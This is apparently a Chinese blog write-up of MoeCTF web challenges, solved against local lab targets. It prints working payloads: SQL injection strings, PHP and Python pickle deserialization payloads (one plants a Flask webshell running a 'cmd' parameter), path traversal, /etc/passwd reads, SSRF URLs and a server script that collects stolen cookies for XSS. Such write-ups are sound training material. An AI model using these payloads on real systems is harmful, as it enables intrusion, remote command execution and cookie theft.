


一年一度的MoeCTF又来了，不过我好久没打过CTF了，前段时间一直在搞开发。

## WEB

### **弗拉格之地的入口**

直接进入 **/robots.tx**t 发现 /webtutorEntry.php文件，进入即可拿到flag

### ez\_http

注意GET参数那里包含了中文，一定要进行url编码一次


### ProveYourLove

**信息**：都七夕了，怎么还是单身狗丫？快拿起勇气向你 **crush** 表白叭，300份才能证明你的爱！

在网页源码中存在JavaScript提交检测，提交之后会在本地存储生成一个confessionSubmitted，如果值为true则点击按钮之后请求会被拦截到。


有两种解决方法，第一个比较笨拙原始，因为他是检测的本地存储，则可以自己修改


不过由于要发送三百次，那就用第二种方法，在第一次触发请求的时候用burpsuite拦截，然后用intruder模块进行发包


### **弗拉格之地的挑战**

第一步，进入 /flag1ab.html ，查看网页源码

```
<!--恭喜你找到了网页的源代码，通常在这里题目会放一些提示，做题没头绪一定要先进来看一下-->
<!--flag1: bW9lY3Rm-->
<!--下一步：/flag2hh.php-->
```

第二步，查看消息头


```
flag2: e0FmdEV
nextpage: /flag3cad.php
```

第三步，抓包


```
flag3: yX3RoMXN
<a href='/flag4bbc.php'>前往下一关</a>
```

第四步，在HTTP头里加一个 Referer: http://localhost:8080/flag3cad.php?a=1 ，跳转到第四关


在js代码中可以只要按钮的id是9就行了，直接F12修改就行


```
恭喜你！你已经知道，前端的一切都是可以更改的！
flag4: fdFVUMHJ
前往：/flag5sxr.php 
```

第五步，前端js有检查字符串，可以直接抓包修改，或者浏览器设置里禁用JS即可

```
<p>恭喜，我相信你已经深刻了解了前端不可信任的道理!</p>
<p>flag5: fSV90aDF</p>
<a href='flag6diw.php'>前往下一关</a>
```

第六步，源码如下,moe在无模式的时候不能直接匹配到flag，但是在忽略大小写的时候要匹配到flag，那么直接传参 **moe=FLAG** 即可

```
<?php
highlight_file("flag6diw.php");
if (isset($_GET['moe']) && $_POST['moe']) {
    if (preg_match('/flag/', $_GET['moe'])) {
        die("no");
    } elseif (preg_match('/flag/i', $_GET['moe'])) {
        echo "flag6: xxx";
    }
}
```

```
flag6: rZV9VX2t
```

第七步，POST传参 what=system("cat /flag7 ");

在根目录下拿到flag7，并且得到提示是base64加密，把七个flag拼一下解密就行了

```
flag7:  rbm93X1dlQn0= 
```


### **静态网页**

F12看到有这哥/api/get的请求，进去查看将id改为0，报错引出一个新的php文件如下


```
<?php
highlight_file('final1l1l_challenge.php');
error_reporting(0);
include 'flag.php';

$a = $_GET['a'];
$b = $_POST['b'];
if (isset($a) && isset($b)) {
    if (!is_numeric($a) && !is_numeric($b)) {
        if ($a == 0 && md5($a) == $b[$a]) {
            echo $flag;
        } else {
            die('noooooooooooo');
        }
    } else {
        die( 'Notice the param type!');
    }
} else {
    die( 'Where is your param?');
} 
```

首先a和b都不能是数字，并且a的值要是0，b\[a\]也要等于a的md5值。

思路：a是一个md5处理后0e开头的一个字符串（因为是两个等号，弱比较，0exxxx都等于0）。b的第一个字符应该是0，并且不能是纯数字。


### **电院\_Backend**

在robots.txt中发现/admin路由，进去是登陆界面，源码有点长，这里只看有用的地方

```
if(!preg_match("/[a-zA-Z0-9]+@[a-zA-Z0-9]+\\.[a-zA-Z0-9]+/", $email)||preg_match("/or/i", $email)){
        echo json_encode(array('status' => 0,'info' => '不存在邮箱为： '.$email.' 的管理员账号！'));
        unset($_SESSION['captcha_code']);
        exit;
    }

$sql = "SELECT * FROM admin WHERE email='$email' AND pwd='$pwd'";
```

这里邮箱就只是一个正常邮箱格式，并且其中不能有or关键字，sql语句也只是简单的单引号闭合


密码随便输，账号如图就行了，直接截断掉了后面的pwd。


### pop moe

整个pop链条是很简单的，从000到003直接走下来就行了，也不多说了

```
<?php

class class000 {
    private $payl0ad = 1;
    protected $what;
    function __construct()
    {
        $this->what=new class001();

    }
}
class class001 {
    public $payl0ad="dangerous";
    public $a;

    function __construct()
    {
       $this->a=new class002();

    }
}
class class002 {
    private  $sec;
    function __construct()
    {
        $this->sec=new class003();

    }

}
class class003 {
    public $mystr="phpinfo()";

}

echo serialize(new class000());

http://127.0.0.1:58271/?data=O:8:"class000":2:{s:17:"%00class000%00payl0ad";i:1;s:7:"%00*%00what";O:8:"class001":2:{s:7:"payl0ad";s:9:"dangerous";s:1:"a";O:8:"class002":1:{s:13:"%00class002%00sec";O:8:"class003":1:{s:5:"mystr";s:10:"phpinfo();";}}}}
```

把private和protect的不可见字符替换成%00就行了


### **勇闯铜人阵**

典型的python题目，先查看答案在网页源码中的格式


```
import re
import requests

request = requests.session()
url = "http://127.0.0.1:53218/"
begin = {"player": "123", "direct": "弟子明白"}

pattern = re.compile('<h1 id="status">\s*(.+?)\s*</h1>')

# 方向映射
directions_map = {
    "1": "北方",
    "2": "东北方",
    "3": "东方",
    "4": "东南方",
    "5": "南方",
    "6": "西南方",
    "7": "西方",
    "8": "西北方"
}

def format_directions(nums):
    if len(nums) == 1:
        # 列表中只有一个数字，直接返回方向名称
        direction = directions_map.get(nums[0], "未知")
        return f"{direction}"

    formatted_directions = []
    for num in nums:
        direction = directions_map.get(num, "未知")
        formatted_directions.append(f"{direction}一个")

    return "，".join(formatted_directions)

for i in range(6):
    if i == 0:
        response = request.post(url=url, data=begin)
        print(response.text)
    else:
        direct_str = format_directions(nums)
        print(direct_str, "direct")
        response = request.post(url=url, data={"player": "123", "direct": direct_str})
        print(response.text)

    num = re.findall(pattern, response.text)[0]
    nums = re.findall(r'\d+', num)  # 直接使用提取出来的顺序
    directions = [directions_map.get(n, "未知") for n in nums]
    print(f"方向数字: {nums}")
    print(f"对应方位: {directions}\n")
```

### **Re: 从零开始的 XDU 教书生活**

题目信息

- 本题约定：所有账号的用户名 == 手机号 == 密码。教师账号用户名：10000。

- 当浏览器开启签到页面时，二维码每 10 秒刷新一次，使用过期的二维码无法完成签到。（浏览器不开启签到页面时，不会进行自动刷新，可以持续使用有效的二维码，除非手动发送刷新二维码的请求） 当你完成任务后，请结束签到活动。你将会获得 Flag 。

也是一个写脚本的问题，只不过比铜人阵要复杂一点点，由于代码过长，这里只讲思路。

**登录接口**抓包可以发现，uname和password是经过加密的，加密逻辑没有直接给出，但是解密逻辑在app.py中有，可以逆推到加密方式，这样就能对每个学生进行登陆操作获取该学生的token（老师的token也能这样获取到）

```
#burpsuite
POST /fanyalogin HTTP/1.1
#省略掉不重要的部分
Cookie: token=4ba20ea2-5458-4d48-beaf-0e4a61bcbe08; retainlogin=1

fid=-1&uname=/LgCkbIdwG1Do95thvCwcA==&password=/LgCkbIdwG1Do95thvCwcA==&refer=https%3A%2F%2Fi.chaoxing.com&t=true&forbidotherlogin=0&validate=&doubleFactorLogin=0&independentId=0&independentNameId=0

#app.py
def decrypt_by_aes(encrypted: str, key: str, iv: str) -> str:
    key_bytes = key.encode("utf-8")
    iv_bytes = iv.encode("utf-8")
    cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)
    encrypted_bytes = base64.b64decode(encrypted)
    decrypted_bytes = cipher.decrypt(encrypted_bytes)
    pad = decrypted_bytes[-1]
    decrypted_bytes = decrypted_bytes[:-pad]
    decrypted = decrypted_bytes.decode("utf-8")
    return decrypted

#据此逆推出加密函数，可借助AI生成代码
def encrypt_by_aes(plain_text: str, key: str, iv: str) -> str:
    key_bytes = key.encode("utf-8")
    iv_bytes = iv.encode("utf-8")
    cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)

    pad = 16 - (len(plain_text) % 16)
    padded_text = plain_text + chr(pad) * pad

    encrypted_bytes = cipher.encrypt(padded_text.encode("utf-8"))

    encrypted_base64 = base64.b64encode(encrypted_bytes).decode("utf-8")
    return encrypted_base64
```

将老师页面的二维码另存到桌面，并且上传，可以看到是访问了这个路由并且传了参数


回到代码，其中需要手动更改的参数只有c和enc，也就是对应的全局变量，而二维码的生成逻辑里可以看出是有这两个参数的

```
@app.route("/widget/sign/e", methods=["GET"])
def e():
    token = request.cookies.get("token")
    if token is None or token not in token_user or token_user[token] == teacher_phone:
        return redirect("/login")
    if request.args.get("id") != str(active_id) or request.args.get("c") != sign_code or request.args.get("enc") != enc:
        return "二维码已过期。"
    uid = token_user[token]
    for i in sign_list:
        if i["uid"] == int(uid):
            if i["status"] == 0:
                if active_status == 2:
                    i["status"] = 11
                else:
                    i["status"] = 1
            return status[i["status"]]

@app.route("/v2/apis/sign/refreshQRCode", methods=["GET"])
def refreash_QRCode():
    global sign_code, enc
    sign_code = str(random.randint(3000000000000, 4000000000000))
    enc = "".join(random.choice(["0", "1", "2", "3", "4", "5", "6", "7", "8", "9", "A", "B", "C", "D", "E", "F"]) for _ in range(32))
    response = {
        "result": 1,
        "msg": "success",
        "data": {
            "enc": enc,
            "signCode":sign_code
        }, 
        "errorMsg": None
    }
    return jsonify(response)
```

**那么整体的思路就来了：**先要用老师账号登录获取到学生列表，然后获取时间戳和enc，使用学生的账号登录获取到学生token，再用学生身份把时间戳和enc带到扫描二维码的路由

完整代码

```
#主程序.py
from 获取学生列表 import get_student_list
from 登录获取token import getToken
from 获取时间戳和enc import get_timestamp_and_enc
from 扫描二位码 import scan_qrcode
import concurrent.futures

student_list = get_student_list()
enc, signcode = get_timestamp_and_enc()  # 获取enc和signcode

def process_student(index):
    temp_token = getToken(student_list[index])  # 获取单个学生的token
    scan_qrcode(sign_code=signcode, enc=enc, token=temp_token)  # 扫描二维码
    return index

with concurrent.futures.ThreadPoolExecutor() as executor:
    futures = [executor.submit(process_student, i) for i in range(len(student_list))]
    for future in concurrent.futures.as_completed(futures):
        i = future.result()
        print(i)
```

```
#登录获取token.py
import requests

from Crypto.Cipher import AES
import base64
import json
import re

def encrypt_by_aes(plain_text: str, key: str, iv: str) -> str:
    key_bytes = key.encode("utf-8")
    iv_bytes = iv.encode("utf-8")
    cipher = AES.new(key_bytes, AES.MODE_CBC, iv_bytes)

    pad = 16 - (len(plain_text) % 16)
    padded_text = plain_text + chr(pad) * pad

    encrypted_bytes = cipher.encrypt(padded_text.encode("utf-8"))

    encrypted_base64 = base64.b64encode(encrypted_bytes).decode("utf-8")
    return encrypted_base64

def getToken(uname):

    pattern = re.compile("token=(.*); E")
    poststr=encrypt_by_aes(uname,"u2oh6Vu^HWe4_AES","u2oh6Vu^HWe4_AES")

    url = "http://127.0.0.1:59835/fanyalogin"

    data = {
        "fid": "-1",
        "uname":f"{poststr}" ,
        "password":f"{poststr}",
        "refer": "https://i.chaoxing.com",
        "t": "true",
        "forbidotherlogin": "0",
        "validate": "",
        "doubleFactorLogin": "0",
        "independentId": "0",
        "independentNameId": "0"
    }
    headers=requests.post(url=url,data=data).headers['Set-Cookie']
    return re.findall(pattern,headers)[0]
```

```
#获取学生列表.py
import requests
import json
from 登录获取token import getToken

def get_student_list():
    # 创建一个会话
    request = requests.session()

    # 请求的URL
    url = "http://127.0.0.1:59835/widget/sign/pcTeaSignController/showSignInfo1?activeId=4000000000000&webCacheId=4000000000000&appType=15&_=1723951358863"

    teacher_token=getToken('10000')
    # 设置Cookie
    cookie = {"retainlogin": "1", "token": f"{teacher_token}"}  #用老师的身份来进行获取学生

    # 发送GET请求
    req = request.get(url=url, cookies=cookie)

    # 解析响应的JSON内容
    data = json.loads(req.text)

    # 从解析的JSON中提取name字段
    name_list = [item["name"] for item in data["data"]["changeUnSignList"]]
    print(teacher_token)
    return name_list

print(get_student_list())
```

```
#获取时间戳和enc.py
from datetime import datetime, timedelta, timezone
import json
import requests
from 登录获取token import getToken

def get_current_timestamp() -> int:
    return int(datetime.now().timestamp() * 1000)

def get_timestamp_and_enc():
    base_url= "http://127.0.0.1:62019"
    get_enc_signCode = f"{base_url}/v2/apis/sign/refreshQRCode?activeId=4000000000000&time={get_current_timestamp()}&viewFrom=&viceScreen=0&viceScreenEwmEnc="
    token=getToken("10000")

    req=requests.get(get_enc_signCode,headers={
        "Cookie":f"token={token}; retainlogin=1"
    })

    response_body=json.loads(req.content.decode())

    enc = response_body['data']['enc']
    signcode = response_body['data']['signCode']
    print(enc,signcode)
    return (enc,signcode)
```

```
#扫描二维码.py
import requests
from 获取时间戳和enc import get_timestamp_and_enc

def scan_qrcode(sign_code,enc,token):
    request= requests.session()
    url="http://127.0.0.1:62019/widget/sign/e"

    url_data=f"?id=4000000000000&c={sign_code}&enc={enc}&DB_STRATEGY=PRIMARY_KEY&STRATEGY_PARA=id"

    request.get(url=url+url_data,headers={
        "Cookie":f"token={token}; retainlogin=1"
    })
```

因为二维码是10秒会刷新一下，多运行几次主程序就好了。（懒得改代码）


### **欢迎来到垫刀之路**

一个简单的命令执行，cat /flag之后提示说在环境变量中。

有可能会在/proc/1/environ里，但是遍历过后发现不存在。发现可以使用php的命令行形式来执行，搜索字符串即可

```
php -r "phpinfo();"
```


### ImageCloud前置

命令执行+php伪协议读取/etc/passwd

```
http://127.0.0.1:53159/index.php?url=file:///etc/passwd
```

### 垫刀之路02: 普通的文件上传

mime类型抓包修改为image/jpeg即可绕过

### 垫刀之路03: 这是一个图床

前端文件名后缀校验，将正常木马后缀改为jpg，然后抓包改回即可

### **垫刀之路04: 一个文件浏览器**

```
http://127.0.0.1:55317/?path=../../../../../../var/www/html/index.php
```

测试可以进行目录穿越读取数据，并且在index.php里看到了如果path是个目录还会把目录中的所有文件及目录返回到页面中，一个一个点进去看，在根目录下/tmp/flag找到

### 垫刀之路05: 登陆网站


抓个包设置password字段，payload可以用burpsuite自带的sql字典，也可以从网上找。

```
username=admin123&password=123' or '1'='1
#单引号闭合
```

### 垫刀之路06: pop base mini moe

```
<?php
class A {
    // 注意 private 属性的序列化哦
    private $evil;

    // 如何赋值呢
    private $a;

    function __construct()
    {
        $this->a=new B();
        $this->evil="ls";
    }

}
class B {
    private $b="system";
 
}
echo serialize(new A());

http://127.0.0.1:63135/?data=O:1:"A":2:{s:7:"%00A%00evil";s:9:"cat /flag";s:4:"%00A%00a";O:1:"B":1:{s:4:"%00B%00b";s:6:"system";}}
```

### 垫刀之路07: 泄漏的密码

页面给了pin码，进入/console路由，输入pin码进入终端。


环境变量中拿到flag

### ImageCloud

题目信息给出，flag在名为flag.jpg的图片中，并且附件中flag.jpg存在于uploads文件夹。

附件中存在两个flask服务的python文件，一个是5000端口的外部云文件，保存图片路径为static，另一个是端口在5001到6000中间随机的内部云文件，保存路径是uploads。

```
#外部云
@app.route('/image', methods=['GET'])
def load_image():
    url = request.args.get('url')
    if not url:
        return 'URL 参数缺失', 400

    try:
        response = requests.get(url)
        response.raise_for_status()
        img = Image.open(BytesIO(response.content))

        img_io = BytesIO()
        img.save(img_io, img.format)
        img_io.seek(0)
        return send_file(img_io, mimetype=img.get_format_mimetype())
    except Exception as e:
        return f"无法加载图片: {str(e)}", 400
```

从外部云这里可以发现，image路由可以对内部云进行请求获取图片。

先随便上传一个图片，然后对其抓包，尝试爆破内部云端口。


```
http://127.0.0.1:56188/image?url=http://localhost:5412/image/flag.jpg
```


###   
who's blog?

进入题目，提示用id来进行传参。题目环境是用python搭建的，容易想到SSTI模板注入漏洞。


flag在环境变量里


### PetStore

题目给出提示是关于python的pickle反序列化漏洞。

拿到源码关注导入部分的函数

```
    def import_pet(self, serialized_pet) -> bool:
        try:
            pet_data = base64.b64decode(serialized_pet)
            pet = pickle.loads(pet_data)
            if isinstance(pet, Pet):
                for i in self.pets:
                    if i.uuid == pet.uuid:
                        return False
                self.pets.append(pet)
                return True
            return False
        except Exception as e:
            print(f"Import failed: {str(e.decode())}")
            return False
```

可以看到这个路由是直接拿到数据就进行load，这里就存在反序列化漏洞，后续的不重要。

由于题目不出网，无法外带，经过信息搜集之后发现，Flask可以进行写入内存马。

下面是相关知识链接。

- [(・ω< )★Flask内存马 | 雲流のLowest World (c1oudfl0w0.github.io)](https://c1oudfl0w0.github.io/blog/2024/08/09/Flask%E5%86%85%E5%AD%98%E9%A9%AC/#pickle%E5%88%A9%E7%94%A8)

- [flask不出网回显方式 - Longlone's Blog](https://longlone.top/%E5%AE%89%E5%85%A8/%E5%AE%89%E5%85%A8%E7%A0%94%E7%A9%B6/flask%E4%B8%8D%E5%87%BA%E7%BD%91%E5%9B%9E%E6%98%BE%E6%96%B9%E5%BC%8F/)

```
import pickle
import base64
import uuid
import os

class Pet:
    def __init__(self, name, species) -> None:
        self.name = name
        self.species = species
        self.uuid = uuid.uuid4()

    def __repr__(self) -> str:
        return f"Pet(name={self.name}, species={self.species}, uuid={self.uuid})"

    def __reduce__(self):
        return (eval,("__import__(\"sys\").modules['__main__'].__dict__['app'].before_request_funcs.setdefault(None, []).append(lambda :__import__('os').popen(request.args.get('cmd')).read())",))

p = Pet("a", "b")
opcode = pickle.dumps(p)
opcode_encode = base64.b64encode(opcode).decode()
print(opcode_encode)

#gASVwgAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIymX19pbXBvcnRfXygic3lzIikubW9kdWxlc1snX19tYWluX18nXS5fX2RpY3RfX1snYXBwJ10uYmVmb3JlX3JlcXVlc3RfZnVuY3Muc2V0ZGVmYXVsdChOb25lLCBbXSkuYXBwZW5kKGxhbWJkYSA6X19pbXBvcnRfXygnb3MnKS5wb3BlbihyZXF1ZXN0LmFyZ3MuZ2V0KCdjbWQnKSkucmVhZCgpKZSFlFKULg==
```

然后将字符串进行import，即可在服务上产生一个新的监听，对cmd参数的命令执行。


还有一个更简单的解法，直接把flag存入store里

```
import base64
import pickle

class Test:
    def __reduce__(self):
        return (exec, ("import os; store.create_pet(os.getenv('FLAG'), 'flag');",))

if __name__ == "__main__":
    print(base64.b64encode(pickle.dumps(Test())).decode("utf-8"))
```

### smbms

题目给出的测试sql附件中发现密码是弱密码，可以字典爆破




密码是1234567，就可以登进去了。

在获取用户列表这里是使用的直接拼接userName，再用%进行包裹。存在sql注入漏洞，是单引号闭合，只需要把后面的百分号无效化就行了。数据库的列数在sql的测试文件中有，最终尝试到14列。


```
孙%' union select 1,(select database()),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
```


可以看到成功爆出数据库名

```
孙%' union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
```


```
孙%' union select 1,(select flag from flag),3,4,5,6,7,8,9,10,11,12,13,14 where '1%'='1
```


### **MessageBox**

经典的web留言板

从源码分析可以得出，只有luo用户的cookie中才具有真正的flag

而留言板可以看到自己发出的，也可看到别人发给自己的

初步猜测是XSS漏洞

我在自己的服务器上创建了两个文件便于靶机外带cookie

一个是test1.php，另一个是空的data.txt

```
<?php
$file = 'data.txt';

// 写入文件
if (!empty($_GET)) {
    $params = http_build_query($_GET);
    $escaped_params = htmlspecialchars($params, ENT_QUOTES, 'UTF-8');
    file_put_contents($file, $escaped_params . "\n", FILE_APPEND);
}

// 读取并显示文件内容
if (file_exists($file)) {
    echo nl2br(file_get_contents($file));
} else {
    echo "没有提供任何参数";
}
?>
```

然后将以下信息发给luo

```

```

稍等一会，xss反弹回来就得到了真正的flag


